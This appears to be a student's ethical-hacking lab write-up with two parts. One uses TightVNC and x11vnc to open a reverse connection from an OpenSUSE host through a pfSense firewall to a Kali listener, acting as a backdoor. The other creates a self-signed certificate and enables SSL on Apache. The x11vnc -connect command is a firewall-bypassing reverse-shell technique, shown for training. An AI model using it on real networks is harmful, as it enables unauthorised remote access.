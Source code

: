 #  VNC as a Backdoor and Creating / Installing SSL Certificates

## Objective
Topology: OpenSUSE, pfSense, and Kali

- Utilize TightVNC to create a reverse connection through a firewall.
- Create a self-signed X.509 certificate and install it on a Linux web server.

---

## Overview / Directions
**VNC as a Backdoor**

1. Inititated TightVNC in an OpenSUSE Terminal.

2. Switched to Kali Terminal and input the 'vncviewer' command to open a server window.

3. Input the OpenSUSE IP address:5902 and password. Closed the window that appeared and switched back to the OpenSUSE tab and input 'vncserver–kill :2'.

4. Switched back to the Kali Terminal and input 'vncviewer–listen 0'.

5. Switched back to the OpenSUSE Terminal and navigated to the /usr/bin directory and established a listener connection outside of the firewall with ' ./x11vnc–connect IP
   address:5500'.

**Creating / Installing SSL Certs**

Self-Signed Cert:

1. Generated an SSL key >  openssl genrsa–out ca.key 2048

2. Generated a new Certificate Signing Request (CSR) >  openssl req–new–key ca.key–out ca.csr

3. Filled out a Distinguished Name (DN) to be incorporated into the CSR

4. Generated a self-signed key >  openssl x509–req–days 365–in ca.csr–signkey ca.key–out ca.crt

5. Copied the ca.crt file from the current directory to the /etc/ssl/certs/ directory >  cp ca.crt /etc/ssl/certs/ca.crt

6. Copied the ca.key file from the current directory to the /etc/ssl/private directory >  cp ca.key /etc/ssl/private/ca.key

7. Copied the ca.csr file from the current directory to the /etc/ssl/private/ directory >  cp ca.csr /etc/ssl/private/ca.csr

Apache SSL File Configuration/SSL Cert Testing:

1. Navigated to the /etc/apache2/sites-available/ directory >  cd /etc/apache2/sites-available

2. Copied the default-ssl.conf file >  cp default-ssl.conf localhost-ssl.conf

3. Edited the localhost-ssl.conf file using the Mousepad file editor >  mousepad localhost-ssl.conf

4. Changed the SSLCertificateFile and SSLCertificateKeyFile paths >  SSLCertificateFile /etc/ssl/certs/ca.crt SSLCertificateKeyFile /etc/ssl/private/ca.key

5. Saved the fie. Exited Mousepad.

6. Changed to the sites-enabled directory >  cd /etc/apache2/sites-enabled/

7. Enabled the localhost-ssl site >  ln-s /etc/apache2/sites-available/localhost-ssl.conf

8. Enabled the SSL Apache Mod >  a2enmod ssl

9. Restarted the Apache service > service apache2 restart

10. Opened web browser and viewed ht*ps://localhost warning message/certificate details.

---

## Tools / Skills Used
- **Tools:** TightVNC; OpenSUSE; Kali Linux
- **Skills:** file/directory management; X.509 SSL certificates; web server (Apache) SSL certification configuration

---

## Proof of Completion
**[Documentation](./Documentation)**

---

## Key Takeaway
This lab strengthened my **technical adaptability and problem-solving** skills by establishing a secure reverse VNC connection and manually creating and configuring SSL certificates on a Linux web server. Navigating multi-step processes across TightVNC, OpenSUSE, Kali, and Apache enhanced my **persistence, analytical reasoning, and foresight** in planning secure configurations. These abilities transfer directly to real-world scenarios where secure remote access and encrypted communications are critical for system integrity.

**[Return to Ethical Hacking Overview](./../README.md)**
